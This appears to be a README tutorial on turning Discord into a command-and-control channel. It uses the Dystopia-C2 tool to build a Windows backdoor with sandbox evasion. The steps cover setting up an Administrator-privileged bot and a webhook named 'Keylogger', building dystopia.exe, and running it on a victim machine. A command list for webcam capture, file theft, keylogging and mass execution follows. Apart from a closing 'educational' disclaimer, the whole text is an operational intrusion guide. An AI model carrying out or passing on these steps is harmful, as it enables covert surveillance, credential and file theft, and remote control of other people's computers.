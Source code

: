 # Hack Windows with Discord  

This project demonstrates how Discord can be exploited as a Command-and-Control (C2) channel to manage a backdoor on a Windows system. Below is a detailed step-by-step explanation of the attack process for educational purposes.  

---

## Step-by-Step Guide  

### 1. Installing Dystopia-C2 on Kali Linux  
- Clone the Dystopia-C2 repository from GitHub:  
  ```bash
  git clone https://github.com/3ct0s/dystopia-c2
  ```  
- Navigate into the directory and prepare the environment for running Dystopia-C2:  
  ```bash
  cd dystopia-c2
  ```  

---

### 2. Setting up a Discord Server  
1. Log in to your Discord account.  
2. Go to **Settings → Advanced Options** and enable **Developer Mode**.  
3. Create a new server with any preferred name (e.g., "server").  

---

### 3. Creating a Discord Bot  
1. Visit the [Discord Developer Portal](https://discord.com/developers/applications).  
2. Click on **New Application** and name your bot.  
3. Navigate to the **Bot** section and scroll down to enable **Privileged Gateway Intents** (select all options and save changes).  
4. Go to **OAuth2 → URL Generator**, select **Bot**, and set its privileges to **Administrator**.  
5. Copy the generated URL, paste it into your browser, and select the server you created earlier to add the bot.  

---

### 4. Retrieving and Storing the Bot Token  
1. In the Developer Portal, go to the **Bot** section and click **Reset Token** to generate your bot token.  
2. Copy the token and paste it into the server's chat or store it securely for future use.  

---

### 5. Creating a Webhook  
1. Navigate to Discord **Server Settings → Integrations → Webhooks**.  
2. Create a new webhook (default name: "Spidey Bot"), rename it to **Keylogger**, set the channel to "General," and save changes.  

---

### 6. Generating the Backdoor  
1. Open your Kali terminal and navigate to the `dystopia-c2` directory.  
2. Run the builder tool:  
   ```bash
   sudo python3 builder.py
   ```  
3. Select the **Discord module**:  
   ```bash
   use discord
   ```  

#### Configure the following settings for the backdoor:  
- **Name**: Set the backdoor name to `dystopia`.  
- **Guild ID**: Right-click the server name in Discord and select **Copy Server ID**.  
- **Bot Token**: Use the token generated earlier.  
- **Channel ID**: Right-click the "General" channel and select **Copy Channel ID**.  
- **Webhook URL**: Go to **Server Settings → Integrations → Webhooks**, click on "Keylogger," and copy the webhook URL.  

4. Build the bot:  
   ```bash
   build
   ```  
   Confirm the build by typing `y` when prompted.  
5. The generated backdoor (`dystopia.exe`) will appear in the `dist` directory.  

---

### 7. Sandbox Evasion  
- The backdoor includes **sandbox evasion** by default.  
- If the Windows host is a virtual machine (VM), the bot will terminate execution to prevent dynamic analysis.  

---

### 8. Running the Backdoor  
1. Transfer the `dystopia.exe` file to a Windows machine.  
2. Run the executable.  
3. Once executed, the bot sends a message to the Discord server notifying the attacker of a new agent online.  
4. Multiple agents can be connected and managed simultaneously.  

---

## Examples of Commands  

### 1. Listing Active Agents  
```bash
list agents
```  
Displays all connected agents in the system.  

### 2. Accessing the Webcam  
```bash
webcam capture
```  
Takes a snapshot using the webcam of the compromised system.  

### 3. File Download  
```bash
download <file_path>
```  
Downloads a specified file from the compromised system to the attacker's machine.  

### 4. Keylogging  
```bash
start keylogger
```  
Starts capturing keystrokes from the victim’s system.  

### 5. Mass Command Execution  
```bash
mass exec <command>
```  
Executes a command across all connected agents simultaneously.  

---

## Disclaimer  

This project is strictly for **educational purposes only**. It is intended to raise awareness about potential misuse of trusted platforms like Discord. Please use this knowledge responsibly and ethically.  

